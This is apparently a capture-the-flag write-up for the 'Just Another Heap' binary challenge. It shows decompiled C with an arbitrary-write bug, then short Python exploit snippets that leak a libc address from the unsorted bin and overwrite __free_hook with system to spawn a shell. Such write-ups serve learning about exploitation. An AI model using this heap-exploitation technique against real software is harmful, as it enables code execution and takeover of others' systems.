


# Just Another Heap

Arbitary write in **sub_400A11** function or **add()** function

```c
unsigned __int64 sub_400A11()
{
  ...
  else
  {
    v3 = 0;
    v4 = 0;
    v8 = 0LL;
    puts("at what page would you like to write?");
    sub_400926(&v8);
    if ( qword_602140[v8] || v8 > 9 )
    {
      puts("there is already something written at that page.");
    }
    else
    {
      puts("name:");
      v0 = v8;
      qword_602260[v0] = malloc(0x20uLL);
      sub_4009D2(qword_602260[v8], 16LL);
      v1 = qword_602260[v8];
      v1[strcspn(v1, "\n")] = 0;
      puts("How long is your memory");
      sub_400926(&size);              //size = -1 or 0xFFFFFF....
      v9 = malloc(size);              //malloc(-1) --> v9 == 0
      puts("Sometimes our memories fade and we only remember parts of them.");
      sub_400926(&v7);                //We add v7 = 0xdeadbeef
      puts("Would you like to leave some space at the beginning in case you remember later?");
      if ( v7 <= size )               //always true, v7 <= 0xFFFFF... (size_t -1)
      {
        if ( v9 )                     //v9 == 0
        {
          for ( i = 0; i < v7; ++i )  //since v9 == 0, this line will be skipped 
            v9[i] = 95;
        }
        v9 += v7;                     //so v9 += v7 => v9 = 0xdeadbeef, arbitary write here
        fflush(stdin);
        puts("What would you like to write");
        sub_4009D2(v9, size - v7);
        puts("Would you say this memory is important to you? [Y/N]");
        ...
}
```

I thoght at first this a heap challenge xd :)

To leak libc address we just need to do this
```py
add(0x440) #0
add(0x30) #1
free(0)
```

Program using **fgets()** for payload, but in **sub_400FC7()** or **edit()** function, program use **read()**
So we can use this for leak the libc

```py
add(0,b'0'*4,0x440,0x10,b'B'*0x8)
add(1,b'1'*4,0x30,0x0,b'/bin/sh\x00') #save for later
delete(0)                             #unsorted bin
add(2,b'2'*4,0x30,0x5,b'')            #unsorted bin
edit(2,b'N',b'X'*4)                   #edit 2
relive(2)                             #leak libc
```



Alright so far so good we have libc address now, now we can ovewrite **__free_hook** to **system**
```py
add(0,b'L'*4,-10000,libc.sym['__free_hook'],p64(libc.sym['system'])) #free_hook to system
delete(1) #system('/bin/sh')
```

Tada!! Solved :)


[Full Sript](https://github.com/L29/Binary-Writeup/blob/main/dCTF/Just%20Another%20Heap/exploit.py)


